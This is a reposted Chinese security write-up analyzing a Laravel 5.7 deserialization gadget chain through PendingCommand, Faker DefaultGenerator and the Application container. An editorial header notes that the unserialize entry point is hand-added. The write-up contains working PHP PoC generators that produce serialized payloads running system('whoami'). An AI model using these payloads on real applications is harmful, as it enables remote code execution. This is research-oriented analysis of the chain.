## 核对与使用边界

- 明确更正：作者主动新增 /index 控制器并调用 unserialize($_GET[c])，这是人为提供入口的 Laravel 5.7 POP 链研究，不证明框架默认就公开该反序列化入口。第一份失败 PoC 与后续 bindings/instances 两种调试变体全部保留，不将失败稿改称成功。

- 明确更正：原 version 字段抽入命令、源码、路径、配置或普通叙述，不是版本号，已清空机器版本字段并原样保留于 version_notes；实际版本/分支条件见本节逐篇记录，未从代码猜造版本。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：实验Laravel5.7/PHP7.3.5（要求&gt;=7.1.3）；需要应用已有不可信unserialize入口及Faker/Mockery测试依赖

代码与实验材料：672行全文读完，手动新增/index控制器unserialize($_GET\[c\])；bindings反射构造和instances缓存两变体，第一失败PoC明确作为调试阶段

来源证据范围：先知t/10578原文、laworigin/其他研究，未给精确framework/依赖锁文件

- **事实待核（1）**：version元数据错抽源码路径；依据：vendor\laravel\framework\src\Illuminate\Foundation\Testing\PendingCommand.php被标版本。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：手工植入反序列化入口不能证明默认远程漏洞；依据：明确自己写TestController直接unserialize外部参数；只能证明gadget可用，不能称Laravel5.7默认RCE。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（3）**：测试依赖与版本断言不充分；依据：需要Faker/Mockery且生产--no-dev未必存在；文末通杀5.4至5.8是外链概括未验证，不应当本篇范围。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（4）**：局部解释及编辑问题；依据：要求foreach返回数组却给expectedOutput=1举例；同调用链片段多次重复，反射实例化仍有类/构造函数条件非任意类。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Laravel5.7 反序列化漏洞分析 - 先知社区

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/10578#toc-0)

> 先知社区，先知安全技术社区

版本: Laravel5.7

PHPstudy+PHP7.3.5（PHP >= 7.1.3）

直接用 composer 安装

```
composer create-project laravel/laravel=5.7 laravel5-7 --prefer-dist
```

php artisan serve 启动

接下来添加路由

routes\web.php 下添加一个 index 路由

```
Route::get("/index","\App\Http\Controllers\TestController@demo");
```

app\Http\Controllers 下新建一个 TestController.php 控制器

```
<?php 
namespace App\Http\Controllers;

use Illuminate\Http\Request;
class TestController extends Controller
{
    public function demo()
    {
        if(isset($_GET['c'])){
            $code = $_GET['c'];
            unserialize($code);
        }
        else{
            highlight_file(__FILE__);
        }
        return "Welcome to laravel5.7";
    }
}
```

在 laravel5.7 的版本中新增了一个 PendingCommand 类, 定位在

```
vendor\laravel\framework\src\Illuminate\Foundation\Testing\PendingCommand.php
```

官方的解释该类主要功能是用作命令执行，并且获取输出内容。

进入这个类中, 看到结尾有个__destruct() 方法, 可以作为反序列化的入口点

[](../../.resource/remote/f9c51062d2efb290fb8fb7f8057dbda3847e8cecb8f320fda134ad2728299726.png)

$this->hasExecuted 的默认值是 false

[](../../.resource/remote/e45b0b2129ed6ead6afc362310719fb9693b192ab5e9d798677cd5323c727adf.png)

那这里就可以直接调用 run() 方法

跟进 run()

```
public function run()
{
    $this->hasExecuted = true;

    $this->mockConsoleOutput();

    try {
        $exitCode = $this->app[Kernel::class]->call($this->command, $this->parameters);
    } catch (NoMatchingExpectationException $e) {
        if ($e->getMethodName() === 'askQuestion') {
            $this->test->fail('Unexpected question "'.$e->getActualArguments()[0]->getQuestion().'" was asked.');
        }

        throw $e;
    }

    if ($this->expectedExitCode !== null) {
        $this->test->assertEquals(
            $this->expectedExitCode, $exitCode,
            "Expected status code {$this->expectedExitCode} but received {$exitCode}."
        );
    }

    return $exitCode;
}
```

看到一个参数可控的调用

```
$exitCode = $this->app[Kernel::class]->call($this->command, $this->parameters)
```

不过在此之前调用了一个 mockConsoleOutput 函数, 跟进看看

```
protected function mockConsoleOutput()
{
    $mock = Mockery::mock(OutputStyle::class.'[askQuestion]', [
        (new ArrayInput($this->parameters)), $this->createABufferedOutputMock(),
    ]);

    foreach ($this->test->expectedQuestions as $i => $question) {
        $mock->shouldReceive('askQuestion')
            ->once()
            ->ordered()
            ->with(Mockery::on(function ($argument) use ($question) {
                return $argument->getQuestion() == $question[0];
            }))
            ->andReturnUsing(function () use ($question, $i) {
                unset($this->test->expectedQuestions[$i]);

                return $question[1];
            });
    }

    $this->app->bind(OutputStyle::class, function () use ($mock) {
        return $mock;
    });
}
```

这个 Mockery::mock 实现了一个对象模拟, 但是我们的目的是要走完这段代码, 这里用断点调试去单点调试, 让他不报错然后回到下面参数可用的调用, 不过这里还会调用一个 createABufferedOutputMock 函数, 继续跟进

```
private function createABufferedOutputMock()
{
    $mock = Mockery::mock(BufferedOutput::class.'[doWrite]')
            ->shouldAllowMockingProtectedMethods()
            ->shouldIgnoreMissing();

    foreach ($this->test->expectedOutput as $i => $output) {
        $mock->shouldReceive('doWrite')
            ->once()
            ->ordered()
            ->with($output, Mockery::any())
            ->andReturnUsing(function () use ($i) {
                unset($this->test->expectedOutput[$i]);
            });
    }

    return $mock;
}
```

又实现了一次对象模拟, 我们的目的还是为了走完这段代码, 继续往下看, 进入 foreach

里面的 $this->test->expectedOutput 这里的 $this->test 可控, 去调用任意类的 expectedOutput 属性, 或者去调用__get() 魔术方法, 随便选取一个可用的 get 方法就行, 这里可以用 DefaultGenerator.php 类或者 Illuminate\Auth\GenericUser 类, 这个就很多了, 只要找到个可用的就行

DefaultGenerator.php

[](../../.resource/remote/d06069362fbb672ec959a6549d7b976d535ce8da314a8bc85e7019b5f25567b0.png)

GenericUser.php

[](../../.resource/remote/bf916f52c2c132ae552d1ea05843090462d42e1ae6397def4535448889c38cfd.png)

随便用一个就行, 只是要注意这里是 foreach, 所以我们要返回一个数组

$this->default=['T0WN'=>"hacker"] 或者 $this->attributes['expectedOutput']=1

回到 mockConsoleOutput 方法，也进入了应该 foreach 循环

[](../../.resource/remote/085f0d67880503b5c98e01c7a5af6216b2740bddb49f9939c162e232c02026a1.png)

这里的绕过方法和刚才一样去调用 get 方法, 为了一次性控制, 我就采用 DefaultGenerator.php 的 get 方法, 然后走完这段代码回到 run 方法

但是这里的 $this->app 需要赋值为一个类, 不然会报错

[](../../.resource/remote/8fada6cd1ab4bf0ec8ebc713d5ec3e43e430eb43a24d899e6a9bc191b2bfe0e6.png)

在注释中说了这里的是应该为 \ Illuminate\Foundation\Application 类

接下来就是产生漏洞的关键代码

```
$exitCode = $this->app[Kernel::class]->call($this->command, $this->parameters);
```

Kernel::class 是完全限定名称，返回的是一个类的完整的带上命名空间的类名

Kernel::class 在这里是一个固定值 Illuminate\Contracts\Console\Kernel, 去调用 $this->app[Kernel::class] 里面的 call 函数

这段代码有点晦涩, 先写一个 poc 试试, 然后再来单点调试

```
<?php

namespace Illuminate\Foundation\Testing {
    class PendingCommand
    {
        protected $command;
        protected $parameters;
        public $test;
        protected $app;
        public function __construct($test, $app, $command, $parameters)
        {
            $this->app = $app;
            $this->test = $test;
            $this->command = $command;
            $this->parameters = $parameters;
        }
    }
}

namespace Faker {
    class DefaultGenerator
    {
        protected $default;

        public function __construct($default = null)
        {
            $this->default = $default;
        }
    }
}

namespace Illuminate\Foundation {
    class Application
    {
        public function __construct($instances = [])
        {
        }
    }
}

namespace {
    $defaultgenerator = new Faker\DefaultGenerator(array("T0WN" => "1"));
    $application = new Illuminate\Foundation\Application();
    $pendingcommand = new Illuminate\Foundation\Testing\PendingCommand($defaultgenerator, $application, "system", array("whoami"));
    echo urlencode(serialize($pendingcommand));
}
```

利用上面的 poc 这里走到了这段代码

```
$exitCode = $this->app[Kernel::class]->call($this->command, $this->parameters);
```

但是再 f8 往下走就直接抛出异常了

所以就 f7 跟进看看调用栈是怎么样的, 来到了 offsetGet 函数

或者直接跟进 $this->app[Kernel::class] 这段代码

[](../../.resource/remote/14b5295c90872a3f0ea11ae155548721341a3301a062ac80549ea4fde580dc62.png)

跟进 make

```
public function make($abstract, array $parameters = [])
{
    $abstract = $this->getAlias($abstract);

    if (isset($this->deferredServices[$abstract]) && ! isset($this->instances[$abstract])) {
        $this->loadDeferredProvider($abstract);
    }

    return parent::make($abstract, $parameters);
}
```

跟进其父类的 make

```
public function make($abstract, array $parameters = [])
{
    return $this->resolve($abstract, $parameters);
}
```

上面这些函数都没什么可控点

跟进 resolve

```
protected function resolve($abstract, $parameters = [])
{
    $abstract = $this->getAlias($abstract);

    $needsContextualBuild = ! empty($parameters) || ! is_null(
        $this->getContextualConcrete($abstract)
    );

    // If an instance of the type is currently being managed as a singleton we'll
    // just return an existing instance instead of instantiating new instances
    // so the developer can keep using the same objects instance every time.
    if (isset($this->instances[$abstract]) && ! $needsContextualBuild) {
        return $this->instances[$abstract];
    }

    $this->with[] = $parameters;

    $concrete = $this->getConcrete($abstract);
    ......
```

一直跟到 resolve 的这没报错, 但是继续单步调试又报错了

[](../../.resource/remote/84e3c96e16826cb6445e6424187cd4d7ba8619fbc8e042cfce85f9eb94041ec6.png)

那就接着跟进 build 函数

在里面的这个地方报错了

[](../../.resource/remote/8dc6580e69a711c0ec3281317336c0f9d92788b758a0298d629b0f05a5bb5e7f.png)

if 判断这个类是否能够实例化, 当前类是不能实例化的

可用看看 Kernel 类的定义

```
interface Kernel
```

定义为一个接口类, 可用在 PHP 官方文档看到一个例子的输出

[](../../.resource/remote/b6afb93b5ca0eb688ab56f11255c825c4d44c5eef2490d60a0b8ac949b8a7822.png)

我们看输出效果就知道了, 接口类和抽象类还有构造方法私有的类是不能实例化的, 接口类的子类, 抽象类的继承类是可以实例化的

所以这里进入了这个 if 判断

跟进 notInstantiable

```
protected function notInstantiable($concrete)
{
    if (! empty($this->buildStack)) {
        $previous = implode(', ', $this->buildStack);

        $message = "Target [$concrete] is not instantiable while building [$previous].";
    } else {
        $message = "Target [$concrete] is not instantiable.";
    }

    throw new BindingResolutionException($message);
}
```

可以看到会抛出一个异常, 这就是为什么会报错的原因了

明白了原因再来看解决办法

回到 resolve 方法

[](../../.resource/remote/496ff4df3e3972868f84e24ba2dff5ef0a6b347a31007d4bd58519c24d3894e7.png)

跟进 getConcrete 方法

```
protected function getConcrete($abstract)
{
    if (! is_null($concrete = $this->getContextualConcrete($abstract))) {
        return $concrete;
    }

    // If we don't have a registered resolver or concrete for the type, we'll just
    // assume each type is a concrete name and will attempt to resolve it as is
    // since the container should be able to resolve concretes automatically.
    if (isset($this->bindings[$abstract])) {
        return $this->bindings[$abstract]['concrete'];
    }

    return $abstract;
}
```

这里问题就出在这儿, 可以看到

```
if (isset($this->bindings[$abstract])) {
        return $this->bindings[$abstract]['concrete'];
    }
```

当存在 $this->bindings[$abstract] 的时候就返回 $this->bindings[$abstract]['concrete'], 否则就返回 $abstract

我们通过断点调试可以清楚的看到,$abstract 的值是 Kernel 这个类

[](../../.resource/remote/fa30b6839dc8f5ecac3fe6cae4c5bb24919aa3feb9c73ce3524f33e989a273f0.png)

先来看看 bindings 属性, 这个是 Illuminate\Container\Container 类的属性, 不过我们这里的 $this->app 是 Illuminate\Foundation\Application 类, 这个类刚好是 Container 类的子类, 可以直接从 Illuminate\Foundation\Application 类来控制 $this->bindings 属性

那这里 $this->bindings[$abstract]['concrete'] 是可控的了直接 return, 出这个函数

所以 $concrete 的值就是我们可以控制的任意类

到了这儿的 if 判断

[](../../.resource/remote/1684ec5891c063f66b5c23df4d4be69a5f3056d948f0dc94d82dbf12b315c4d4.png)

跟进 isBuildable

```
protected function isBuildable($concrete, $abstract)
{
    return $concrete === $abstract || $concrete instanceof Closure;
}
```

这里的 $concrete 的值就是我们可以控制的任意类,$abstract 还是之前的 Kernel 类, 显然不成立

所以执行 else, 回到 make 函数, 改变其参数值为我们控制的类, 同样的流程再走一遍来到 resolve 方法

此时的 $concrete 与 $abstract 的值是一样的了, 那就可以进入 if, 调用 build 方法

在 build 方法里有 PHP 反射机制

```
$reflector = new ReflectionClass($concrete);
```

这里 $concrete 就是我们刚才通过控制 $this->bindings[$abstract]['concrete'] 返回的任意类

那这里就可以实例化任意类了

执行到了刚才报错的地方

[](../../.resource/remote/aca60644d6838059dbecce582b75ef4ae92dd7d6ca442e2e408ecf67bfda30e0.png)

当前类是可以实例化的, 直接跳过 if, 然后层层返回, 最后实例化了任意类

当然这里实例化的类里面需要具有 call 函数, 这里选用了 Illuminate\Foundation\Application 类, 所以最后返回的实例化对象就是 Application 类

然后调用里面的 call 方法, 这里 Application 类并没有 call 方法, 所以会直接跳到它父类 Container.php 里面的 call 方法

```
public function call($callback, array $parameters = [], $defaultMethod = null)
{
    return BoundMethod::call($this, $callback, $parameters, $defaultMethod);
}
```

跟进 BoundMethod 类的静态 call 方法

```
public static function call($container, $callback, array $parameters = [], $defaultMethod = null)
{
    if (static::isCallableWithAtSign($callback) || $defaultMethod) {
        return static::callClass($container, $callback, $parameters, $defaultMethod);
    }

    return static::callBoundMethod($container, $callback, function () use ($container, $callback, $parameters) {
        return call_user_func_array(
            $callback, static::getMethodDependencies($container, $callback, $parameters)
        );
    });
}
```

跳过了第一个分支语句, 来到 return 这里

[](../../.resource/remote/4777f5abab792b0643be66b3dca868bbe62f8d4c482f130351680a9c25cb606b.png)

```
return static::callBoundMethod($container, $callback, function () use ($container, $callback, $parameters) {
    return call_user_func_array(
        $callback, static::getMethodDependencies($container, $callback, $parameters)
    );
});
```

[](../../.resource/remote/617b5b96fb31a7c3d7ecb9e39efe4ad19d2d2e6c766b2548d89893933bdc4132.png)

跟进 callBoundMethod

[](../../.resource/remote/9c3d9fe71c19b8b2519487f307e776d2d87c887ceb0f279130b096d935fe3861.png)

判断 $callback 是不是数组, 从上面断点调试的时候的值来看 $callback 是传进来的 system, 并不是数组所以很顺利进入了这个 if, 返回了 $default

再看 $default 是 callBoundMethod 的第三个参数, 这是一个自定义函数

```
function () use ($container, $callback, $parameters) {
    return call_user_func_array(
        $callback, static::getMethodDependencies($container, $callback, $parameters)
    );
}
```

直接 return 一个 call_user_func_array(), 第一个参数是 $callback, 现在跟进 getMethodDependencies 看看第二个参数怎么来的

```
protected static function getMethodDependencies($container, $callback, array $parameters = [])
{
    $dependencies = [];

    foreach (static::getCallReflector($callback)->getParameters() as $parameter) {
        static::addDependencyForCallParameter($container, $parameter, $parameters, $dependencies);
    }

    return array_merge($dependencies, $parameters);
}
```

就是返回一个合并数组, 因为 $dependencies 是空数组,$parameters 是我们传进来的 whoami

[](../../.resource/remote/da91817a960b7d8889386b17ee672b811e6c30a3ee9c1a6eeb836b74fa591daf.png)

所以返回值就是 whoami

那 $default 的值就是 system("whoami") 了, 单步跳过, 会到了 run 方法发现命令执行成功

[](../../.resource/remote/53e58959afded6aa63e9a44e4688ba92a492a51d11b61d88d665534eb821ceb4.png)

POC1
----

```
<?php

namespace Illuminate\Foundation\Testing {

    use Faker\DefaultGenerator;
    use Illuminate\Foundation\Application;

    class PendingCommand
    {
        protected $command;
        protected $parameters;
        protected $app;
        public $test;

        public function __construct($command, $parameters, $class, $app)
        {
            $this->command = $command;
            $this->parameters = $parameters;
            $this->test = $class;
            $this->app = $app;
        }
    }
    $a = array("DawnT0wn" => "1");
    $app = array("Illuminate\Contracts\Console\Kernel" => array("concrete" => "Illuminate\Foundation\Application"));
    echo urlencode(serialize(new PendingCommand("system", array("whoami"), new DefaultGenerator($a), new Application($app))));
}

namespace Faker {
    class DefaultGenerator
    {
        protected $default;

        public function __construct($default = null)
        {
            $this->default = $default;
        }
    }
}


namespace Illuminate\Foundation {
    class Application
    {
        protected $hasBeenBootstrapped = false;
        protected $bindings;

        public function __construct($bind)
        {
            $this->bindings = $bind;
        }
    }
}
```

这里 $this->parameters 需要是一个数组类型才行, 不然在这里在第一个对象模拟这里就会报错

[](../../.resource/remote/df04b9bb2abb32cf78c4176473a56ec6ade2f2e22a1dead5a451a4504d2ea248.png)

[](../../.resource/remote/642e59cf540708f0166cd88599bf019bac8af8fc43771795d77bdd1734f3d3c6.png)

POC2
----

刚才我们返回 Application 实例化对象的时候是通过反射去实现的

但是回到 resolve 方法

[](../../.resource/remote/fb59b5edd0d677182157adb6e31472438c71138d7c045353de4a1926d157cf3e.png)

看看这里的 if 语句, 先看后面 $needsContextualBuild 我们打断点的时候可以很明显的看到他的值是 false, 所以如果存在 $this->instances[$abstract] 就会直接返回 $this->instances[$abstract], 这个是可控的, 所以就可以直接返回一个实例化的 Application 对象了

exp 如下

```
<?php

namespace Illuminate\Foundation\Testing {
    class PendingCommand
    {
        protected $command;
        protected $parameters;
        public $test;
        protected $app;
        public function __construct($test, $app, $command, $parameters)
        {
            $this->app = $app;
            $this->test = $test;
            $this->command = $command;
            $this->parameters = $parameters;
        }
    }
}

namespace Faker {
    class DefaultGenerator
    {
        protected $default;

        public function __construct($default = null)
        {
            $this->default = $default;
        }
    }
}

namespace Illuminate\Foundation {
    class Application
    {
        protected $instances = [];

        public function __construct($instances = [])
        {
            $this->instances['Illuminate\Contracts\Console\Kernel'] = $instances;
        }
    }
}

namespace {
    $defaultgenerator = new Faker\DefaultGenerator(array("DawnT0wn" => "1"));
    $app = new Illuminate\Foundation\Application();
    $application = new Illuminate\Foundation\Application($app);
    $pendingcommand = new Illuminate\Foundation\Testing\PendingCommand($defaultgenerator, $application, "system", array("whoami"));
    echo urlencode(serialize($pendingcommand));
}
```

[](../../.resource/remote/d3354aa21b651df98b8cbb791a6f9e5b6b7444fd74df91689da74ff5336c1db6.png)

